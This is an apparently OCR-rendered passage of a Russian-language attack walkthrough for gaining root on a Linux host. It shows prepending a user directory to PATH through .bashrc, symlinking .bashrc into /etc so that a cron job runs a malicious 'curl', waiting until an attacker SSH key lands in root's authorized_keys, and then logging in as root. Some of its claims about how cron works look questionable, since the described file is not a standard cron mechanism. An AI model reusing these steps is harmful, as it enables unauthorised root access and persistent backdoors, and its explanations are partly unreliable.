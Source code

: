 
---

#### Шаг 3: Изменение PATH для cron
```bash
# Добавляем директорию в PATH через .bashrc
echo 'export PATH="/home/user/.local/bin:$PATH"' >> ~/.bashrc

# Для cron-задач, выполняемых от пользователя:
sudo ln -s /home/user/.bashrc /etc/cron.user_profile
```

**Пояснения:**
  1. **Изменение .bashrc:**
    - Добавляет строку `export PATH="/home/user/.local/bin:$PATH"` в конец файла `.bashrc`
    - При каждом запуске Bash будет добавлять `/home/user/.local/bin` в **начало** PATH
  2. **Создание символической ссылки:**
    - `sudo ln -s /home/user/.bashrc /etc/cron.user_profile`
    - Создает системный файл `/etc/cron.user_profile`, ссылающийся на `.bashrc` пользователя
    - Cron по умолчанию не загружает пользовательские .bashrc. Эта ссылка заставляет cron загружать настройки PATH

**Механика работы в cron:**
  1. При запуске cron-задачи, ищется файл `/etc/cron.user_profile`
  2. Через символическую ссылку загружается `~/.bashrc` пользователя
  3. Выполняется `export PATH`, добавляя `/home/user/.local/bin` в начало PATH
  4. При вызове `curl` в скрипте, система сначала проверяет `/home/user/.local/bin`
  5. Находит и выполняет вредоносную версию вместо `/usr/bin/curl`

---

#### Шаг 4: Ожидание выполнения cron
> Cron-задачи выполняются по расписанию. Атакующий не может предсказать точное время выполнения, 
> поэтому скрипт "дежурит" до успешного добавления ключа.
```bash
# Ждем выполнения cron-задачи (макс. 1 час)
while ! grep -q ssh-rsa /root/.ssh/authorized_keys; do
    sleep 300
done
```

**Пояснения:**
  - Каждые 5 минут (300 секунд) проверяет наличие ключа в authorized_keys
  - `grep -q`: Тихий режим (не выводит результат)
  - Цикл завершится, когда cron-задача выполнится (максимум через 1 час)

---

#### Шаг 5: Доступ к системе
```bash
ssh -i attacker_key root@victim-host
```

**Пояснения:**
  - `-i attacker_key`: Указывает путь к приватному ключу
  - `root@victim-host`: Подключение к root на целевой машине

---